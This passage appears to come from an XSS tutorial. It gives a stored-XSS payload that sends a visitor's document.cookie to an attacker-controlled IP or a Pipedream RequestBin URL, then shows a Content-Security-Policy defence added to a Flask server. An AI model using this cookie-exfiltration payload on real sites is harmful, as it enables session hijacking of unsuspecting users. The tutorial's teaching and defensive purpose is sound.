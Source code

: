 Sending the payload with `<script></script>` tags (`<script>var xhr=new XMLHttpRequest();xhr.open('GET','http://X.X.X.X:8000/'+document.cookie,false);xhr.send();</script>`) and visiting `/comments` triggers the arbitrary code!

An alternative to a cloud VM is a publicly exposed endpoint such as those offered by [Pipedream](https://pipedream.com/). Create an account and then navigate [here](https://pipedream.com/requestbin) to create a new RequestBin. This provides a new, unique URL which can be used in place of an IP address. 

```javascript
var xhr=new XMLHttpRequest();
xhr.open('GET','<URL>' + '/' +document.cookie,false);
xhr.send();
```

Substitute this URL into the payload above and it can be triggered in the same manner as the prior example. An event should appear in the RequestBin with the requested route displaying the target's cookie!

![[requestbin.png]]

## Defence against XSS: CSP

XSS has been a vulnerability for years, and many efforts have been made to combat it. One particularly effective measure is through the enforcement of Content Security Policies (CSPs). CSPs define domains which are "authorized" to provide resources used in the rendering of web pages. This allows a web developer to restrict resource provision from only trusted sites, such as a server's domain itself.

CSPs can be identified by viewing a server's response headers. If the `Content-Security-Policy` header is present, it limits the source of resources fetched. CSP allows filtering by type, including custom policies for scripts (`script-src`), images (`img-src`) and more. If no other domains (other than itself) are to be trusted then `Content-Security-Policy: 'self'` can be declared. 

CSPs are particularly effective against XSS because they limit the execution of Javascript to only trusted sources. Consider again our stored XSS server used previously. We can secure this server by adding the following Python function to the server, as included in [[stored_xss_csp.py]]:

```python
# Define CSP to limit the source of scripts
@app.after_request
def apply_csp(response):
    csp = "default-src 'self'; script-src 'self';"
    response.headers['Content-Security-Policy'] = csp
    return response
```

Navigating to the `/comments` page of this server now shows a CSP response header as enforced by the new code: 

```
connection:
close

content-length:
544
content-security-policy:
default-src 'self'; script-src 'self';
content-type:
text/html; charset=utf-8
date:
Sun, 27 Oct 2024 14:38:06 GMT
server:
Werkzeug/3.0.4 Python/3.12.7
```
